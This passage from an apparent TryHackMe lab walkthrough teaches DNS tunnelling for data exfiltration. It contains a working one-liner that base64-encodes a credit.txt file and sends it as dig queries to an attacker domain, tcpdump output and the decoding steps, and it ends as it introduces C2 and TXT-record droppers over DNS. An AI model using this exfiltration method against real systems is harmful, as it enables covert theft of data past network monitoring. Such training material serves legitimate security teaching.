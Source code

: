 
Next, from the victim2 machine, we send the base64 data as a subdomain name with considering the DNS limitation as follows:  

Send the Encoded data via the dig command  

```
thm@victim2:~$ cat task9/credit.txt |base64 | tr -d "\n" | fold -w18 | sed 's/.*/&./' | tr -d "\n" | sed s/$/att.tunnel.com/ | awk '{print "dig +short " $1}' | bash
```
   

With some adjustments to the single DNS request, we created and added the dig command to send it over the DNS, and finally, we passed it to the bash to be executed. If we check the Attacker's tcpdump terminal, we should receive the data we sent from victim2.  

Receiving the Data Using tcpdump  

```
thm@attacker:~$ sudo tcpdump -i eth0 udp port 53 -v tcpdump: listening on eth0, link-type EN10MB (Ethernet), capture size 262144 bytes 


22:14:00.287440 IP (tos 0x0, ttl 64, id 60579, offset 0, flags [none], proto UDP (17), length 104)     172.20.0.1.56092 > attacker.domain: 19543% [1au] A? _.pDb2RlOiAxMzM3Cg==.att.tunnel.com. (76) 22:14:00.288208 IP (tos 0x0, ttl 64, id 60580, offset 0, flags [none], proto UDP (17), length 235)     172.20.0.1.36680 > attacker.domain: 23460% [1au] A? TmFtZTogVEhNLXVzZX.IKQWRkcmVzczogMTIz.NCBJbnRlcm5ldCwgVE.hNCkNyZWRpdCBDYXJk.OiAxMjM0LTEyMzQtMT.IzNC0xMjM0CkV4cGly.ZTogMDUvMDUvMjAyMg.pDb2RlOiAxMzM3Cg==.att.tunnel.com. (207) 22:14:00.289643 IP (tos 0x0, ttl 64, id 48564, offset 0, flags [DF], proto UDP (17), length 69)     attacker.52693 > 172.20.0.1.domain: 3567+ PTR? 1.0.20.172.in-addr.arpa. (41) 22:14:00.289941 IP (tos 0x0, ttl 64, id 60581, offset 0, flags [DF], proto UDP (17), length 123)     172.20.0.1.domain > attacker.52693: 3567 NXDomain* 0/1/0 (95)

```

Once our DNS request is received, we can stop the tcpdump tool and clean the received data by removing unwanted strings, and finally decode back the data using Base64 as follows,

Cleaning and Restoring the Receiving Data  

```
thm@attacker:~$ echo "TmFtZTogVEhNLXVzZX.IKQWRkcmVzczogMTIz.NCBJbnRlcm5ldCwgVE.hNCkNyZWRpdCBDYXJk.OiAxMjM0LTEyMzQtMT.IzNC0xMjM0CkV4cGly.ZTogMDUvMDUvMjAyMg.pDb2RlOiAxMzM3Cg==.att.tunnel.com." | cut -d"." -f1-8 | tr -d "." | base64 -d 


Name: THM-user Address: 1234 Internet, T
HM Credit Card: 1234-1234-1234-1234 
Expire: 05/05/2022 Code: 1337

```
	    

Nice! We have successfully transferred the content of the credit.txt over the DNS protocol manually.

C2 Communications over DNS

C2 frameworks use the DNS protocol for communication, such as sending a command execution request and receiving execution results over the DNS protocol. They also use the TXT DNS record to run a dropper to download extra files on a victim machine. This section simulates how to execute a bash script over the DNS protocol. We will be using the web interface to add a TXT DNS record to the tunnel.com domain name.
